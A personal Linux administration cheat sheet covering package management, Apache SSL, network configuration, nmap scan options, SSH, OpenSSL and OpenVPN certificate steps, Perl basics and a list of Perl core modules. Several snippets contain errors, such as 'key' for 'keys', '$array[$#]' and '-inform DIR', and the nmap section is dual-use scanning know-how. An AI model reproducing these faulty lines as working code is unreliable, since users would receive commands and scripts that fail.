** COMMAND : apt-get
   # apt-get install --reinstall package

** COMMAND : dpkg
   # dpkg -i package
   # dpkg --force-all --purge package
   # dpkg --remove package
   # dpkg --info package
   Show information about a package
   # dpkg --contents package
   List contents of a deb package

** COMMAND : update-manager
   # Graphical management of software packages updates

** Installing GNOME desktop environment
   ubuntu-gnome-desktop
   # will install a full GNOME desktop environment (including gnome-shell), along with a few standard applications and optimizations for Ubuntu
   # Depends on gnome-shell gnome-shell-extensions

   gnome-shell
   # will only install the GNOME shell, and its dependencies

   gnome-session-fallback
   # is the absolute minimum GNOME desktop you can install

** set hostname
   /etc/hostname

** missing htpasswd
   # apt-get install apache2-utils

** enable apache2 cgi-bin
   # a2enmod cgi

** enable apache2 rewrite
   # a2enmod rewrite

** SSL Certificate for Apache2
# a2enmod ssl
   enable module

# openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout /etc/apache2/ssl/apache.key -out /etc/apache2/ssl/apache.crt


    -openssl: This is the basic command line tool provided by OpenSSL to create and manage certificates, keys, signing requests, etc.
    -req: This specifies a subcommand for X.509 certificate signing request (CSR) management. X.509 is a public key infrastructure standard that SSL adheres to for its key and certificate managment. Since we are wanting to create a new X.509 certificate, this is what we want.
    -x509: This option specifies that we want to make a self-signed certificate file instead of generating a certificate request.
    -nodes: This option tells OpenSSL that we do not wish to secure our key file with a passphrase. Having a password protected key file would get in the way of Apache starting automatically as we would have to enter the password every time the service restarts.
    -days 365: This specifies that the certificate we are creating will be valid for one year.
    -newkey rsa:2048: This option will create the certificate request and a new private key at the same time. This is necessary since we didn't create a private key in advance. The rsa:2048 tells OpenSSL to generate an RSA key that is 2048 bits long.
    -keyout: This parameter names the output file for the private key file that is being created.
    -out: This option names the output file for the certificate that we are generating.


# vi /etc/apache2/sites-available/default-ssl.conf
SSLCertificateFile /etc/apache2/ssl/apache.crt
SSLCertificateKeyFile /etc/apache2/ssl/apache.key

# a2ensite default-ssl.conf
  Enable SSL-enabled virtual host

# service apache2 restart

** Installing development tools
   aptitude -y install gcc binutils make linux-source

** deb repository
   deb deb file:/home/user/repository
   dpkg-scanpackages --multiversion ./ | gzip -9c > Packages.gz
   dpkg-scansources ./ | gzip -9c > Sources.gz

*** Sign debs
    # Don't need to do this as packages are not verified by default

    dpkg-sig -k keyid --sign builder your_packages_$VERSION_$ARCHITECTURE.deb
    dpkg-sig -k BE289760 --sign bulder xul-ext-ubufox_3.0-0ubuntu0.14.10.1_all.deb

    gpg --verify xserver-xorg-video-intel_2%3a2.99.914-1~exp1ubuntu4.2_amd64.deb

*** Remove deb signature
    ar d "$yourpackage.deb" _gpgbuilder

    This works because .deb files, at the outermost layer, are essentially just "ar" archives, and embedded deb sigs are stored in that outermost layer. There is a small difference between .debs created with dpkg and those created with ar, so normally it's a good idea to stick to real dpkg tools when manipulating deb files, but all modern tools (afaik) can handle both just fine.

** Nagios install-webconf
   # /usr/bin/install -c -m 644 sample-config/httpd.conf /etc/apache2/sites-enabled/nagios.conf

** static interface
/etc/network/interfaces

auto lo eth0
iface lo inet loopback
iface eth0 inet static
        address xxx.xxx.xxx.xxx
        netmask xxx.xxx.xxx.xxx
        gateway xxx.xxx.xxx.xxx

* LINUX : CENTOS
** Remote timezone
   # /etc/localtime
   # ln -s /usr/share/zoneinfo/America/New_York /etc/localtime

** /etc/sysconfig/network-scripts/ifcfg-enp0s17
TYPE="Ethernet"
BOOTPROTO="none"
DEFROUTE="yes"
IPV4_FAILURE_FATAL="yes"
IPV6INIT="no"
IPV6_AUTOCONF="yes"
IPV6_DEFROUTE="yes"
IPV6_PEERDNS="yes"
IPV6_PEERROUTES="yes"
IPV6_FAILURE_FATAL="no"
NAME="enp0s17"
UUID="e23fed8e-a0c7-444d-af23-df6ee6302b11"
ONBOOT="yes"
HWADDR="08:00:27:52:72:4F"
IPADDR0="10.0.1.23"
PREFIX0="23"
GATEWAY0="10.0.1.1"
DNS1="10.0.1.1"

** iptables managed by firewalld
   yum install iptables-services
   systemctl mask firewalld.service
   systemctl enable iptables.service
   systemctl enable ip6tables.service

   systemctl stop firewalld.service
   systemctl start iptables.service
   systemctl start ip6tables.service

* LINUX : OPENSUSE
** Changing resolution
   cvt 1920 1200
   ## 1920x1200 59.88 Hz (CVT 2.30MA) hsync: 74.56 kHz; pclk: 193.25 MHz
   #Modeline "1920x1200_60.00"  193.25  1920 2056 2256 2592  1200 1203 1209 1245 -hsync +vsync

   xrandr --newmode "1920x1200_60.00"  193.25  1920 2056 2256 2592  1200 1203 1209 1245 -hsync +vsync
   xrandr --addmode HDMI2 1920x1200_60.00
   xrandr --output HDMI2 --mode 1920x1200_60.00
** COMMAND : xrandr
   xrandr --q1

** createrepo <directory>

** Prevent Lid Close Suspension
   /etc/systemd/logind.conf

   default: HandleLidSwitch=suspend
   update: HandleLidSwitch=ignore
   systemctl restart systemd-logind

** zypper --pkg-cache-dir ./ download <package>

** zypper info --requires -repo local_repo createrepo

** zypper install -y --repo local_repo emacs

** Xfce Ctrl to Caps
   /usr/bin/setxkbmap -option "ctrl:nocaps"

* mRemoteNG
  # Filezilla integration
  sftp://%Username%:%Password%@%Hostname%:%Port%

* Networking : /proc/net/ip_conntrack
  See the sockets

* nmap
  -Pn					# disable ping
  -n					# never do reverse DNS
  -sn					# ping only
  --dns-servers <server1>,<server2>	# custom DNS
  -R					# always do reverse DNS
  -oX					# output XML

  # Extended scripts
  –script <script>
  	smb-os-discovery.nse 		# Windows hostname discovery

nmap --script "http-*"

    Loads all scripts whose name starts with http-, such as http-auth and http-open-proxy. The argument to --script had to be in quotes to protect the wildcard from the shell.

More complicated script selection can be done using the and, or, and not operators to build Boolean expressions. The operators have the same precedence as in Lua: not is the highest, followed by and and then or. You can alter precedence by using parentheses. Because expressions contain space characters it is necessary to quote them.

nmap --script "not intrusive"
    Loads every script except for those in the intrusive category.

nmap --script "default or safe"
    This is functionally equivalent to nmap --script "default,safe". It loads all scripts that are in the default category or the safe category or both.

nmap --script "default and safe"
    Loads those scripts that are in both the default and safe categories.

nmap --script "(default or safe or intrusive) and not http-*"
    Loads scripts in the default, safe, or intrusive categories, except for those whose names start with http-.

* OpenSSH
  PermitRootLogin no	# disallow root account login

  ssh root@MachineB 'bash -s' < LOCALFILE		# run a script over SSH
  ssh HOST cat < LOCALFILE ">" REMOTEFILE
  ssh HOST "cat < REMOTEFILE" > LOCALFILE

** Regenerate Server Host Keys
   rm -v /etc/ssh/ssh_host_*
   dpkg-reconfigure openssh-server

** Remove host fingerprint
   ssh-keygen -R <remote-server-name>

* OpenSSL
  PEM certificates usually have extentions such as .pem, .crt, .cer, and .key
  They are Base64 encoded ASCII files and contain "-----BEGIN CERTIFICATE-----" and "-----END CERTIFICATE-----" statements. Server certificates, intermediate certificates, and private keys can all be put into the PEM format.

  DER format is simply a binary form of a certificate instead of the ASCII PEM format. It sometimes has a file extension of .der but it often has a file extension of .cer so the only way to tell the difference between a DER .cer file and a PEM .cer file is to open it in a text editor and look for the BEGIN/END statements.


  # system-wide certificate directory
  /etc/ssl/certs


  # Verify certificates
  openssl verify [-CApath directory] [-CAfile file] [-purpose purpose] [-untrusted file] [-help] [-issuer_checks] [-verbose] [-] [certificates]

  # Print certificate information
  openssl x509 -inform DIR -in certificat.cer -text -noout
  openssl pkcs7 -inform DER -outform PEM -print_certs -in dodeca2.cac -text -noout

	-serial
	-fingerprint

** PEM Formats
The PEM private key format uses the header and footer lines:

 -----BEGIN RSA PRIVATE KEY-----
 -----END RSA PRIVATE KEY-----

The PEM public key format uses the header and footer lines:

 -----BEGIN PUBLIC KEY-----
 -----END PUBLIC KEY-----

The PEM RSAPublicKey format uses the header and footer lines:

 -----BEGIN RSA PUBLIC KEY-----
 -----END RSA PUBLIC KEY-----

** Conversions
   # Convert a DER file (.crt .cer .der) to PEM
   openssl x509 -inform der -in certificate.cer -out certificate.pem

   # Convert a PEM file to DER
   openssl x509 -outform der -in certificate.pem -out certificate.der

   # Convert a PKCS#12 file (.pfx .p12) containing a private key and certificates to PEM
   openssl pkcs12 -in keyStore.pfx -out keyStore.pem -nodes
   • You can add -nocerts to only output the private key or add -nokeys to only output the certificates.

   # Convert a PEM certificate file and a private key to PKCS#12 (.pfx .p12)
   openssl pkcs12 -export -out certificate.pfx -inkey privateKey.key -in certificate.crt -certfile CACert.crt

** Convert DoD Certificates to PEM format
   openssl pkcs7 -inform DER -outform PEM -print_certs -in dodeca.cac -out dodeca.pem
   openssl pkcs7 -inform DER -outform PEM -print_certs -in dodeca2.cac -out dodeca2.pem
   openssl pkcs7 -inform DER -outform PEM -print_certs -in rel3_dodroot_2048.cac -out rel3_dodroot_2048.pem

** Get md5 hash
   openssl md5 /path/to/file

* OpenVPN


  | Filename    | Needed By                | Purpose                   | Secret |
  |-------------+--------------------------+---------------------------+--------|
  | client1.crt | client1 only             | Client1 Certificate       | NO     |
  | client1.key | client1 only             | Client1 Key               | YES    |
  | client2.crt | client2 only             | Client2 Certificate       | NO     |
  | client2.key | client2 only             | Client2 Key               | YES    |
  | client3.crt | client3 only             | Client3 Certificate       | NO     |
  | client3.key | client3 only             | Client3 Key               | YES    |
  | ca.key      | key signing machine only | Root CA key               | YES    |
  | ca.crt      | server + all clients     | Root CA certificate       | NO     |
  | dh{n}.pem   | server only              | Diffie Hellman parameters | NO     |
  | server.crt  | server only              | Server Certificate        | NO     |
  | server.key  | server only              | Server Key                | YES    |


  # OpenSSL CA Steps

  ## Server
  openssl genrsa -out rootCA.key 4096
  openssl genrsa -out rootCA.key 4096 -des3
  openssl req -x509 -new -nodes -key rootCA.key -days 1024 -out rootCA.pem

  ## Client
  openssl genrsa -out device.key 4096
  openssl req -new -key device.key -out device.csr
  Common Name (eg, YOUR name) []: 10.0.0.1
  openssl x509 -req -in device.csr -CA root.pem -CAkey root.key -CAcreateserial -out device.crt -days 500


  # OpenVPN Steps
  https://www.tinfoilsecurity.com/blog/tags/vpn

  openssl req -newkey rsa:4096 -keyout /etc/openvpn/vpn-key.pem -out vpn.csr
  openssl x509 -CA cacert.pem -CAkey cakey.pem -CAcreateserial -days 730 -req -in vpn.csr -out vpn-cert.pem
  openvpn --genkey --secret /etc/openvpn/ta.key		# shared key to put on server and client
  openssl dhparam -out /etc/openvpn/dh4096.pem 4096


  sysctl -w net.ipv4.ip_forward=1
  uncomment the line in /etc/sysctl.conf to persist this across restarts

  iptables -I FORWARD -i tun0 -o eth0 -s 10.8.0.0/24 -m conntrack --ctstate NEW -j ACCEPT
  iptables -I FORWARD -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
  iptables -t nat -I POSTROUTING -o eth0 -s 10.8.0.0/24 -j MASQUERADE

  ## A TAP device is a virtual ethernet adapter, while a TUN device is a virtual point-to-point IP link.

** client.ovpn inline certificate
client

dev tun
proto tcp
remote 1.2.3.4 1194

resolv-retry infinite
nobind

persist-key
persist-tun

ca [inline]
cert [inline]
key [inline]

verb 1

keepalive 10 900
inactive 3600
comp-lzo

<ca>
-----BEGIN CERTIFICATE-----
...
-----END CERTIFICATE-----
</ca>
<cert>
-----BEGIN CERTIFICATE-----
...
-----END CERTIFICATE-----
</cert>
<key>
-----BEGIN RSA PRIVATE KEY-----
...
-----END RSA PRIVATE KEY-----
</key>

* PERL
  # one-liner
  /usr/bin/perl -MTime::Piece -le 'my $time = localtime->ymd; print "$time\n";'

** Variable : Scalars
   use strict;
   my $variable = "string";
   my $int = 42;

   print "The square of $answer is ", $int * $int, "\n";

** Variable : Arrays
   use strict;
   my @mixedarray = ("camel", 42, 1.23);
   my @sorted = sort @animals;
   my @backwards = reverse @numbers;

   @ARGV	# the command line arguments to your script
   @_		# the arguments passed to a subroutine


   print $array[0];

   # last element of the aray
   print $array[$#];

   # array slice
   # multiple values from array
   @array[0,1];
   @array[0..2];
   @array[1..$#array];

** Variable : Hashes
   # A hash represents a set of key/value pairs
   my @fruits = key %fruit_colors;
   my @colors = values %fruit_colors;


   my %fruit_color = ("apple", "red", "banana", "yellow");

   # same

   my %fruit_color = (
   	apple => "red",
	banana => "yellow",
   );

   # to get a hash element
   $fruit_color{"apple"};	# gives "red"

   # you can get

** Function : qw
   # quote word
   use File::Temp qw(tempfile tempdir);

   my @names = ('bob', 'rich', 'jen');
   my @names = qw(bob rich jen);

** CORE Modules

    AnyDBM_File - provide framework for multiple DBMs
    App::Prove - Implements the prove command.
    App::Prove::State - State storage for the prove command.
    App::Prove::State::Result - Individual test suite results.
    App::Prove::State::Result::Test - Individual test results.
    Archive::Extract - A generic archive extracting mechanism
    Archive::Tar - module for manipulations of tar archives
    Archive::Tar::File - a subclass for in-memory extracted file from Archive::Tar
    Attribute::Handlers - Simpler definition of attribute handlers
    AutoLoader - load subroutines only on demand
    AutoSplit - split a package for autoloading

    B - The Perl Compiler Backend
    B::Concise - Walk Perl syntax tree, printing concise info about ops
    B::Debug - Walk Perl syntax tree, printing debug info about ops
    B::Deparse - Perl compiler backend to produce perl code
    B::Lint - Perl lint
    B::Lint::Debug - Adds debugging stringification to B::
    B::Showlex - Show lexical variables used in functions or files
    B::Terse - Walk Perl syntax tree, printing terse info about ops
    B::Xref - Generates cross reference reports for Perl programs
    Benchmark - benchmark running times of Perl code

    Carp - alternative warn and die for modules
    CGI - Handle Common Gateway Interface requests and responses
    CGI::Apache - Backward compatibility module for CGI.pm
    CGI::Carp - CGI routines for writing to the HTTPD (or other) error log
    CGI::Cookie - Interface to HTTP Cookies
    CGI::Fast - CGI Interface for Fast CGI
    CGI::Pretty - module to produce nicely formatted HTML code
    CGI::Push - Simple Interface to Server Push
    CGI::Switch - Backward compatibility module for defunct CGI::Switch
    CGI::Util - Internal utilities used by CGI module
    Class::Struct - declare struct-like datatypes as Perl classes
    Compress::Raw::Bzip2 - Low-Level Interface to bzip2 compression library
    Compress::Raw::Zlib - Low-Level Interface to zlib compression library
    Compress::Zlib - Interface to zlib compression library
    Config - access Perl configuration information
    Config::Extensions - hash lookup of which core extensions were built.
    CPAN - query, download and build perl modules from CPAN sites
    CPAN::Debug - internal debugging for CPAN.pm
    CPAN::Distroprefs - read and match distroprefs
    CPAN::FirstTime - Utility for CPAN::Config file Initialization
    CPAN::HandleConfig - internal configuration handling for CPAN.pm
    CPAN::Kwalify - Interface between CPAN.pm and Kwalify.pm
    CPAN::Nox - Wrapper around CPAN.pm without using any XS module
    CPAN::Queue - internal queue support for CPAN.pm
    CPAN::Tarzip - internal handling of tar archives for CPAN.pm
    CPAN::Version - utility functions to compare CPAN versions
    CPANPLUS - API & CLI access to the CPAN mirrors
    CPANPLUS::Backend - programmer's interface to CPANPLUS
    CPANPLUS::Backend::RV - return value objects
    CPANPLUS::Config - configuration defaults and heuristics for CPANPLUS
    CPANPLUS::Configure - configuration for CPANPLUS
    CPANPLUS::Dist - base class for plugins
    CPANPLUS::Dist::Autobundle - distribution class for installation snapshots
    CPANPLUS::Dist::Base - Base class for custom distribution classes
    CPANPLUS::Dist::Build - CPANPLUS plugin to install packages that use Build.PL
    CPANPLUS::Dist::Build::Constants - Constants for CPANPLUS::Dist::Build
    CPANPLUS::Dist::MM - distribution class for MakeMaker related modules
    CPANPLUS::Dist::Sample - Sample code to create your own Dist::* plugin
    CPANPLUS::Error - error handling for CPANPLUS
    CPANPLUS::Internals - CPANPLUS internals
    CPANPLUS::Internals::Extract - internals for archive extraction
    CPANPLUS::Internals::Fetch - internals for fetching files
    CPANPLUS::Internals::Report - internals for sending test reports
    CPANPLUS::Internals::Search - internals for searching for modules
    CPANPLUS::Internals::Source - internals for updating source files
    CPANPLUS::Internals::Source::Memory - In memory implementation
    CPANPLUS::Internals::Source::SQLite - SQLite implementation
    CPANPLUS::Internals::Utils - convenience functions for CPANPLUS
    CPANPLUS::Module - CPAN module objects for CPANPLUS
    CPANPLUS::Module::Author - CPAN author object for CPANPLUS
    CPANPLUS::Module::Author::Fake - dummy author object for CPANPLUS
    CPANPLUS::Module::Checksums - checking the checksum of a distribution
    CPANPLUS::Module::Fake - fake module object for internal use
    CPANPLUS::Selfupdate - self-updating for CPANPLUS
    CPANPLUS::Shell - base class for CPANPLUS shells
    CPANPLUS::Shell::Classic - CPAN.pm emulation for CPANPLUS
    CPANPLUS::Shell::Default - the default CPANPLUS shell
    CPANPLUS::Shell::Default::Plugins::CustomSource - add custom sources to CPANPLUS
    CPANPLUS::Shell::Default::Plugins::Remote - connect to a remote CPANPLUS
    CPANPLUS::Shell::Default::Plugins::Source - read in CPANPLUS commands
    Cwd - get pathname of current working directory

    Data::Dumper - stringified perl data structures, suitable for both printing and eval
    DB - programmatic interface to the Perl debugging API
    DBM_Filter - Filter DBM keys/values
    DBM_Filter::compress - filter for DBM_Filter
    DBM_Filter::encode - filter for DBM_Filter
    DBM_Filter::int32 - filter for DBM_Filter
    DBM_Filter::null - filter for DBM_Filter
    DBM_Filter::utf8 - filter for DBM_Filter
    DB_File - Perl5 access to Berkeley DB version 1.x
    Devel::InnerPackage - find all the inner packages of a package
    Devel::Peek - A data debugging tool for the XS programmer
    Devel::PPPort - Perl/Pollution/Portability
    Devel::SelfStubber - generate stubs for a SelfLoading module
    Digest - Modules that calculate message digests
    Digest::base - Digest base class
    Digest::file - Calculate digests of files
    Digest::MD5 - Perl interface to the MD5 Algorithm
    Digest::SHA - Perl extension for SHA-1/224/256/384/512
    DirHandle - supply object methods for directory handles
    Dumpvalue - provides screen dump of Perl data.
    DynaLoader - Dynamically load C libraries into Perl code

    Encode - character encodings in Perl
    Encode::Alias - alias definitions to encodings
    Encode::Byte - Single Byte Encodings
    Encode::CJKConstants - Internally used by Encode::??::ISO_2022_*
    Encode::CN - China-based Chinese Encodings
    Encode::CN::HZ - internally used by Encode::CN
    Encode::Config - internally used by Encode
    Encode::EBCDIC - EBCDIC Encodings
    Encode::Encoder - Object Oriented Encoder
    Encode::Encoding - Encode Implementation Base Class
    Encode::GSM0338 - ESTI GSM 03.38 Encoding
    Encode::Guess - Guesses encoding from data
    Encode::JP - Japanese Encodings
    Encode::JP::H2Z - internally used by Encode::JP::2022_JP*
    Encode::JP::JIS7 - internally used by Encode::JP
    Encode::KR - Korean Encodings
    Encode::KR::2022_KR - internally used by Encode::KR
    Encode::MIME::Header - MIME 'B' and 'Q' header encoding
    Encode::MIME::Name - internally used by Encode
    Encode::Symbol - Symbol Encodings
    Encode::TW - Taiwan-based Chinese Encodings
    Encode::Unicode - Various Unicode Transformation Formats
    Encode::Unicode::UTF7 - UTF-7 encoding
    English - use nice English (or awk) names for ugly punctuation variables
    Env - perl module that imports environment variables as scalars or arrays
    Errno - System errno constants
    Exporter - Implements default import method for modules
    Exporter::Heavy - Exporter guts
    ExtUtils::CBuilder - Compile and link C code for Perl modules
    ExtUtils::CBuilder::Platform::Windows - Builder class for Windows platforms
    ExtUtils::Command - utilities to replace common UNIX commands in Makefiles etc.
    ExtUtils::Command::MM - Commands for the MM's to use in Makefiles
    ExtUtils::Constant - generate XS code to import C header constants
    ExtUtils::Constant::Base - base class for ExtUtils::Constant objects
    ExtUtils::Constant::Utils - helper functions for ExtUtils::Constant
    ExtUtils::Constant::XS - generate C code for XS modules' constants.
    ExtUtils::Embed - Utilities for embedding Perl in C/C++ applications
    ExtUtils::Install - install files from here to there
    ExtUtils::Installed - Inventory management of installed modules
    ExtUtils::Liblist - determine libraries to use and how to use them
    ExtUtils::MakeMaker - Create a module Makefile
    ExtUtils::MakeMaker::Config - Wrapper around Config.pm
    ExtUtils::MakeMaker::FAQ - Frequently Asked Questions About MakeMaker
    ExtUtils::MakeMaker::Tutorial - Writing a module with MakeMaker
    ExtUtils::Manifest - utilities to write and check a MANIFEST file
    ExtUtils::Miniperl - write the C code for perlmain.c
    ExtUtils::Mkbootstrap - make a bootstrap file for use by DynaLoader
    ExtUtils::Mksymlists - write linker options files for dynamic extension
    ExtUtils::MM - OS adjusted ExtUtils::MakeMaker subclass
    ExtUtils::MM_AIX - AIX specific subclass of ExtUtils::MM_Unix
    ExtUtils::MM_Any - Platform-agnostic MM methods
    ExtUtils::MM_BeOS - methods to override UN*X behaviour in ExtUtils::MakeMaker
    ExtUtils::MM_Cygwin - methods to override UN*X behaviour in ExtUtils::MakeMaker
    ExtUtils::MM_Darwin - special behaviors for OS X
    ExtUtils::MM_DOS - DOS specific subclass of ExtUtils::MM_Unix
    ExtUtils::MM_MacOS - once produced Makefiles for MacOS Classic
    ExtUtils::MM_NW5 - methods to override UN*X behaviour in ExtUtils::MakeMaker
    ExtUtils::MM_OS2 - methods to override UN*X behaviour in ExtUtils::MakeMaker
    ExtUtils::MM_QNX - QNX specific subclass of ExtUtils::MM_Unix
    ExtUtils::MM_Unix - methods used by ExtUtils::MakeMaker
    ExtUtils::MM_UWIN - U/WIN specific subclass of ExtUtils::MM_Unix
    ExtUtils::MM_VMS - methods to override UN*X behaviour in ExtUtils::MakeMaker
    ExtUtils::MM_VOS - VOS specific subclass of ExtUtils::MM_Unix
    ExtUtils::MM_Win32 - methods to override UN*X behaviour in ExtUtils::MakeMaker
    ExtUtils::MM_Win95 - method to customize MakeMaker for Win9X
    ExtUtils::MY - ExtUtils::MakeMaker subclass for customization
    ExtUtils::Packlist - manage .packlist files
    ExtUtils::ParseXS - converts Perl XS code into C code
    ExtUtils::testlib - add blib/* directories to @INC

    Fatal - Replace functions with equivalents which succeed or die
    Fcntl - load the C Fcntl.h defines
    File::Basename - Parse file paths into directory, filename and suffix.
    File::CheckTree - run many filetest checks on a tree
    File::Compare - Compare files or filehandles
    File::Copy - Copy files or filehandles
    File::DosGlob - DOS like globbing and then some
    File::Fetch - A generic file fetching mechanism
    File::Find - Traverse a directory tree.
    File::Glob - Perl extension for BSD glob routine
    File::GlobMapper - Extend File Glob to Allow Input and Output Files
    File::Path - Create or remove directory trees
    File::Spec - portably perform operations on file names
    File::Spec::Cygwin - methods for Cygwin file specs
    File::Spec::Epoc - methods for Epoc file specs
    File::Spec::Functions - portably perform operations on file names
    File::Spec::Mac - File::Spec for Mac OS (Classic)
    File::Spec::OS2 - methods for OS/2 file specs
    File::Spec::Unix - File::Spec for Unix, base for other File::Spec modules
    File::Spec::VMS - methods for VMS file specs
    File::Spec::Win32 - methods for Win32 file specs
    File::stat - by-name interface to Perl's built-in stat() functions
    File::Temp - return name and handle of a temporary file safely
    FileCache - keep more files open than the system permits
    FileHandle - supply object methods for filehandles
    Filter::Simple - Simplified source filtering
    Filter::Util::Call - Perl Source Filter Utility Module
    FindBin - Locate directory of original perl script

    Getopt::Long - Extended processing of command line options
    Getopt::Std - Process single-character switches with switch clustering

    Hash::Util - A selection of general-utility hash subroutines
    Hash::Util::FieldHash - Support for Inside-Out Classes

    I18N::Collate - compare 8-bit scalar data according to the current locale
    I18N::Langinfo - query locale information
    I18N::LangTags - functions for dealing with RFC3066-style language tags
    I18N::LangTags::Detect - detect the user's language preferences
    I18N::LangTags::List - tags and names for human languages
    IO - load various IO modules
    IO::Compress::Base - Base Class for IO::Compress modules
    IO::Compress::Bzip2 - Write bzip2 files/buffers
    IO::Compress::Deflate - Write RFC 1950 files/buffers
    IO::Compress::Gzip - Write RFC 1952 files/buffers
    IO::Compress::RawDeflate - Write RFC 1951 files/buffers
    IO::Compress::Zip - Write zip files/buffers
    IO::Dir - supply object methods for directory handles
    IO::File - supply object methods for filehandles
    IO::Handle - supply object methods for I/O handles
    IO::Pipe - supply object methods for pipes
    IO::Poll - Object interface to system poll call
    IO::Seekable - supply seek based methods for I/O objects
    IO::Select - OO interface to the select system call
    IO::Socket - Object interface to socket communications
    IO::Socket::INET - Object interface for AF_INET domain sockets
    IO::Socket::UNIX - Object interface for AF_UNIX domain sockets
    IO::Uncompress::AnyInflate - Uncompress zlib-based (zip, gzip) file/buffer
    IO::Uncompress::AnyUncompress - Uncompress gzip, zip, bzip2 or lzop file/buffer
    IO::Uncompress::Base - Base Class for IO::Uncompress modules
    IO::Uncompress::Bunzip2 - Read bzip2 files/buffers
    IO::Uncompress::Gunzip - Read RFC 1952 files/buffers
    IO::Uncompress::Inflate - Read RFC 1950 files/buffers
    IO::Uncompress::RawInflate - Read RFC 1951 files/buffers
    IO::Uncompress::Unzip - Read zip files/buffers
    IO::Zlib - IO:: style interface to Compress::Zlib
    IPC::Cmd - finding and running system commands made easy
    IPC::Msg - SysV Msg IPC object class
    IPC::Open2 - open a process for both reading and writing using open2()
    IPC::Open3 - open a process for reading, writing, and error handling using open3()
    IPC::Semaphore - SysV Semaphore IPC object class
    IPC::SharedMem - SysV Shared Memory IPC object class
    IPC::SysV - System V IPC constants and system calls

    List::Util - A selection of general-utility list subroutines
    List::Util::XS - Indicate if List::Util was compiled with a C compiler
    Locale::Country - standard codes for country identification
    Locale::Currency - standard codes for currency identification
    Locale::Language - standard codes for language identification
    Locale::Maketext - framework for localization
    Locale::Maketext::Guts - Deprecated module to load Locale::Maketext utf8 code
    Locale::Maketext::GutsLoader - Deprecated module to load Locale::Maketext utf8 code
    Locale::Maketext::Simple - Simple interface to Locale::Maketext::Lexicon
    Locale::Script - standard codes for script identification
    Log::Message - A generic message storing mechanism;
    Log::Message::Config - Configuration options for Log::Message
    Log::Message::Handlers - Message handlers for Log::Message
    Log::Message::Item - Message objects for Log::Message
    Log::Message::Simple - Simplified interface to Log::Message

    Module::Build::Platform::darwin - Builder class for Mac OS X platform
    Module::Build::Platform::Default - Stub class for unknown platforms
    Module::Build::Platform::EBCDIC - Builder class for EBCDIC platforms
    Module::Build::Platform::MacOS - Builder class for MacOS platforms
    Module::Build::Platform::MPEiX - Builder class for MPEiX platforms
    Module::Build::Platform::os2 - Builder class for OS/2 platform
    Module::Build::Platform::RiscOS - Builder class for RiscOS platforms
    Module::Build::Platform::Unix - Builder class for Unix platforms
    Module::Build::Platform::VMS - Builder class for VMS platforms
    Module::Build::Platform::VOS - Builder class for VOS platforms
    Module::Build::Platform::Windows - Builder class for Windows platforms
    Module::Build::PPMMaker - Perl Package Manager file creation
    Module::Build::Version - DEPRECATED
    Module::Build::YAML - DEPRECATED
    Module::CoreList - what modules shipped with versions of perl
    Module::Load - runtime require of both modules and files
    Module::Load::Conditional - Looking up module information / loading at runtime
    Module::Loaded - mark modules as loaded or unloaded
    Module::Pluggable - automatically give your module the ability to have plugins
    Module::Pluggable::Object - automatically give your module the ability to have plugins

    NDBM_File - Tied access to ndbm files
    Net::Cmd - Network Command class (as used by FTP, SMTP etc)
    Net::Config - Local configuration data for libnet
    Net::Domain - Attempt to evaluate the current host's internet name and domain
    Net::FTP - FTP Client class
    Net::hostent - by-name interface to Perl's built-in gethost*() functions
    Net::netent - by-name interface to Perl's built-in getnet*() functions
    Net::Netrc - OO interface to users netrc file
    Net::NNTP - NNTP Client class
    Net::Ping - check a remote host for reachability
    Net::POP3 - Post Office Protocol 3 Client class (RFC1939)
    Net::protoent - by-name interface to Perl's built-in getproto*() functions
    Net::servent - by-name interface to Perl's built-in getserv*() functions
    Net::SMTP - Simple Mail Transfer Protocol Client
    Net::Time - time and daytime network client interface
    NEXT - Provide a pseudo-class NEXT (et al) that allows method redispatch

    O - Generic interface to Perl Compiler backends
    Object::Accessor - interface to create per object accessors
    Opcode - Disable named opcodes when compiling perl code

    Package::Constants - List all constants declared in a package
    Params::Check - A generic input parsing/checking mechanism.
    Parse::CPAN::Meta - Parse META.yml and META.json CPAN metadata files
    PerlIO - On demand loader for PerlIO layers and root of PerlIO::* name space
    PerlIO::encoding - encoding layer
    PerlIO::scalar - in-memory IO, scalar IO
    PerlIO::via - Helper class for PerlIO layers implemented in perl
    PerlIO::via::QuotedPrint - PerlIO layer for quoted-printable strings
    Pod::Checker - check pod documents for syntax errors
    Pod::Escapes - for resolving Pod E<...> sequences
    Pod::Find - find POD documents in directory trees
    Pod::Functions - Group Perl's functions a la perlfunc.pod
    Pod::Html - module to convert pod files to HTML
    Pod::InputObjects - objects representing POD input paragraphs, commands, etc.
    Pod::LaTeX - Convert Pod data to formatted Latex
    Pod::Man - Convert POD data to formatted *roff input
    Pod::ParseLink - Parse an L<> formatting code in POD text
    Pod::Parser - base class for creating POD filters and translators
    Pod::ParseUtils - helpers for POD parsing and conversion
    Pod::Perldoc - Look up Perl documentation in Pod format.
    Pod::Perldoc::BaseTo - Base for Pod::Perldoc formatters
    Pod::Perldoc::GetOptsOO - Customized option parser for Pod::Perldoc
    Pod::Perldoc::ToChecker - let Perldoc check Pod for errors
    Pod::Perldoc::ToMan - let Perldoc render Pod as man pages
    Pod::Perldoc::ToNroff - let Perldoc convert Pod to nroff
    Pod::Perldoc::ToPod - let Perldoc render Pod as ... Pod!
    Pod::Perldoc::ToRtf - let Perldoc render Pod as RTF
    Pod::Perldoc::ToText - let Perldoc render Pod as plaintext
    Pod::Perldoc::ToTk - let Perldoc use Tk::Pod to render Pod
    Pod::Perldoc::ToXml - let Perldoc render Pod as XML
    Pod::PlainText - Convert POD data to formatted ASCII text
    Pod::Select - extract selected sections of POD from input
    Pod::Simple - framework for parsing Pod
    Pod::Simple::Checker - check the Pod syntax of a document
    Pod::Simple::Debug - put Pod::Simple into trace/debug mode
    Pod::Simple::DumpAsText - dump Pod-parsing events as text
    Pod::Simple::DumpAsXML - turn Pod into XML
    Pod::Simple::HTML - convert Pod to HTML
    Pod::Simple::HTMLBatch - convert several Pod files to several HTML files
    Pod::Simple::LinkSection - represent "section" attributes of L codes
    Pod::Simple::Methody - turn Pod::Simple events into method calls
    Pod::Simple::PullParser - a pull-parser interface to parsing Pod
    Pod::Simple::PullParserEndToken - end-tokens from Pod::Simple::PullParser
    Pod::Simple::PullParserStartToken - start-tokens from Pod::Simple::PullParser
    Pod::Simple::PullParserTextToken - text-tokens from Pod::Simple::PullParser
    Pod::Simple::PullParserToken - tokens from Pod::Simple::PullParser
